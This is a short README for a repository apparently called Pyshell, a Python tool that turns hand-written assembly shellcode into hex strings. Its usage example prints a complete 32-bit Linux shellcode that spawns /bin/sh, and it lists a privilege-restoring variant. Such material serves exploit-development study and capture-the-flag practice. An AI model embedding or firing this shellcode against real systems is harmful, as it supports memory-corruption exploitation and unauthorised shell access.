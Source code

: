 # Pyshell
Some ASM shellcodes, with a python wrapper for easy asm->hex conversion.

### Usage

Simply launch the script with python3 and specify an assembler code:

```
entropy@undefined:~/Pyshell$ python3 pyshell.py asm/shell.32bit.nasm 
[+] Encoded:
 \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80
 ```
 
 ### ASM Shellcodes
 
 They are some handmade shellcodes already in the `asm` directory:
  - `shell.32bit.nasm`          (Standart shellcode that pops a shell)
  - `priv_shell.32bit.nasm`     (Basic shell with privilege restoration)
    
 ## Roadmap:
  - Define architecture: i386, at&t
  - Define output: hex string, binary, etc...
  - Add shellcodes:
    - Read a file and print the content
    - 64 bits shellcodes
  - Possibility to specify options in shellcode: `File to read`, `Ip:Port`, `etc...`
  - Encoded shellcode with a stub
